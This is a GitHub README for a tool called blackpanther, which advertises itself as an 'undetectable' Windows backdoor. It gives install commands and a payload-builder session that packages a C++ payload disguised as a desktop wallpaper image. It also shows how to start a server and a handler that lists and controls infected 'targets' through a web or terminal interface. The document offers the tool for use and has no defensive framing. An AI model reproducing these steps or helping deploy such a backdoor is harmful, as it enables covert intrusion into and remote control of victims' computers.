



## BLACKPANTHER

- Windows undetectable Backdoor


## Installation

Install blackpanther with git

```bash
git clone https://github.com/madhanmaaz/blackpanther
```
```bash
cd blackpanther
```
Install dependencies
```bash
npm install
```
```bash
pip install -r requirements.txt
```

## Usage

- !!!!!!! `help` commnad to navigate all the options and settings

##### TO CREATE PAYLOAD
```bash
python bp-create.py
```
```

 ▄▄▄▄    ██▓    ▄▄▄       ▄████▄   ██ ▄█▀ ██▓███   ▄▄▄       ███▄    █ ▄▄▄█████▓ ██░ ██ ▓█████  ██▀███  
▓█████▄ ▓██▒   ▒████▄    ▒██▀ ▀█   ██▄█▒ ▓██░  ██▒▒████▄     ██ ▀█   █ ▓  ██▒ ▓▒▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▒ ▄██▒██░   ▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▓██░ ██▓▒▒██  ▀█▄  ▓██  ▀█ ██▒▒ ▓██░ ▒░▒██▀▀██░▒███   ▓██ ░▄█ ▒
▒██░█▀  ▒██░   ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▓██▒  ▐▌██▒░ ▓██▓ ░ ░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄  
░▓█  ▀█▓░██████▒▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄▒██▒ ░  ░ ▓█   ▓██▒▒██░   ▓██░  ▒██▒ ░ ░▓█▒░██▓░▒████▒░██▓ ▒██▒
░▒▓███▀▒░ ▒░▓  ░▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒   ▒ ░░    ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
▒░▒   ░ ░ ░ ▒  ░ ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░░▒ ░       ▒   ▒▒ ░░ ░░   ░ ▒░    ░     ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░    ░   ░ ░    ░   ▒   ░        ░ ░░ ░ ░░         ░   ▒      ░   ░ ░   ░       ░  ░░ ░   ░     ░░   ░ 
 ░          ░  ░     ░  ░░ ░      ░  ░                  ░  ░         ░           ░  ░  ░   ░  ░   ░     
      ░                  ░                                                           [CREATOR]
                                                                                     - Designed by madhan
                                                                                     - https://github.com/madhanmaaz 
                                                                                     - https://madhanmaaz.netlify.app

[CREATE]>
```

- commands
```bash
> help        list out help menu
> payloads    listout payloads
> goto <ID>   navigate into payload
> exit        exit app
```

- example
```python
[CREATE]> goto 0
+=== CPP-PAYLOAD PAYLOAD ===+
[CREATE/cpp-payload]> set origin https://example.com
[CREATE/cpp-payload]> set mediaurl https://wallpaper.com/a.jpg
[CREATE/cpp-payload]> set medianame wall.jpg
[CREATE/cpp-payload]> set filename desktopwallpaper
[CREATE/cpp-payload]> create -o
```

- To run server
```bash
npm run start
```

- Run handler
```bash
python bp-handler.py
```
- To boot interface
```bash

 ▄▄▄▄    ██▓    ▄▄▄       ▄████▄   ██ ▄█▀ ██▓███   ▄▄▄       ███▄    █ ▄▄▄█████▓ ██░ ██ ▓█████  ██▀███
▓█████▄ ▓██▒   ▒████▄    ▒██▀ ▀█   ██▄█▒ ▓██░  ██▒▒████▄     ██ ▀█   █ ▓  ██▒ ▓▒▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▒ ▄██▒██░   ▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▓██░ ██▓▒▒██  ▀█▄  ▓██  ▀█ ██▒▒ ▓██░ ▒░▒██▀▀██░▒███   ▓██ ░▄█ ▒
▒██░█▀  ▒██░   ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▓██▒  ▐▌██▒░ ▓██▓ ░ ░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄
░▓█  ▀█▓░██████▒▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄▒██▒ ░  ░ ▓█   ▓██▒▒██░   ▓██░  ▒██▒ ░ ░▓█▒░██▓░▒████▒░██▓ ▒██▒
░▒▓███▀▒░ ▒░▓  ░▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒   ▒ ░░    ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
▒░▒   ░ ░ ░ ▒  ░ ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░░▒ ░       ▒   ▒▒ ░░ ░░   ░ ▒░    ░     ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░    ░   ░ ░    ░   ▒   ░        ░ ░░ ░ ░░         ░   ▒      ░   ░ ░   ░       ░  ░░ ░   ░     ░░   ░
 ░          ░  ░     ░  ░░ ░      ░  ░                  ░  ░         ░           ░  ░  ░   ░  ░   ░
      ░                  ░                                                           [HANDLER]
                                                                                     - Designed by madhan
                                                                                     - https://github.com/madhanmaaz
                                                                                     - https://madhanmaaz.netlify.app

> help
=== MENU ===
> interface   boot interface
> stop        stop the server
> targets     show all targets
> goto <id>   go into the target
> help        help menu
> ^C          exit

> interface
```
- Now you can handle the connections from web interface
- otherwise you want to use terminal version. `help` command to navigate.
## Screenshots




